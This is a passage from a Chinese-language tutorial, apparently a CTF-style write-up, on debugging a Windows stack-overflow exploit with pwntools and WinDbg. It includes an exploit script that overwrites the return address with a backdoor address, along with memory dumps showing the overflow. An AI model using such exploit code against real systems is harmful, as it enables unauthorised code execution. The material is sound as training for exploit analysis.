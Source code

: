 将上一节的exp改一下之后运行可以正常触发calc

## 结合pwntools进行调试

在调试exp的时候花了很长时间，断点下在了main函数入口那里，以为会直接断在那里的。然后运行的时候发现断不了，就在网上找解决方法（srv，reload），心态快要爆炸后，问了一下Ex师傅，师傅看了一眼就知道问题出在了断点下的太前，已经执行过了，在gets后下了一个断点就成功的断下来了

首先在exp前面加上一个pause()使得程序停住，如下exp运行

```
from pwn import *
from time import sleep

context.log_level = 'debug'

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

r = remote('10.211.55.3', 1234)

pause()
p1 = b'a' * (0x14 + 4)
p1 += p32(0x401000)
r.sendline(p1)

r.interactive()
```

然后利用windbg attach到程序上

![img](https://xzfile.aliyuncs.com/media/upload/picture/20221126193123-db0b98ba-6d7d-1.png)

在`0x0401088`这里下一个断点，并且输入g，g就是程序运行到断点停住

```
0:002> bp 0x0401088
0:002> g
```

然后回到exp那里输入任意键，执行payload，此时windbg会断到断点这里

```
0:002> g
Breakpoint 0 hit
eax=00000012 ebx=00243000 ecx=00402732 edx=0041b098 esi=0041be28 edi=0041be2c
eip=00401088 esp=0019fe74 ebp=0019fe90 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0023             efl=00000202
ch72+0x1088:
00401088 83c408          add     esp,8
```

在ebp这里减去0x20就可以看到输入了a（0x61）被转换成大写A（0x41），并且后面可以看到ebp被覆盖成了aaaa而返回地址被覆盖成了`0x00401000`这个地址也就是后门地址

```
0:000> dc ebp - 0x20
0019fe70  00401088 0041b01c 0019fe7c 41414141  ..@...A.|...AAAA
0019fe80  41414141 41414141 41414141 00000010  AAAAAAAAAAAA....
0019fe90  61616161 00401000 00000000 06e29668  aaaa..@.....h...
0019fea0  06e29690 8abb39fd 00401347 00243000  .....9..G.@..0$.
0019feb0  00243000 00000000 00401347 00243000  .0$.....G.@..0$.
0019fec0  0019fea4 00000000 0019fef8 00401c60  ............`.@.
0019fed0  8ae3509d 00000000 0019fef0 762ec038  .P..........8..v
0019fee0  00243000 00000000 00000000 00000000  .0$.............
```
